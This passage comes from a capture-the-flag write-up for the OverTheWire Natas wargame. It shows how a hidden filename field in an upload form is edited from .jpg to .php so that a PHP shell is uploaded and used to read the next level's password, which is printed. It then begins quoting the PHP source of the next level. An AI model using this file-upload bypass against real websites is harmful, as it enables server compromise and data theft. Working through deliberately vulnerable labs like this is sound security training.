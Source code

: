 Now we just need to update the file name   
```
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

to  

```
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.php" />
```

We can do this with Burp or F12 -> network -> headers -> edit and resend

```
Content-Disposition: form-data; name="filename"

zpfrokehzg.php
```

```
The file upload/zpfrokehzg.php has been uploaded
``` 

From here we can simply use the shell to cat the file

```
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

## natas13

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

```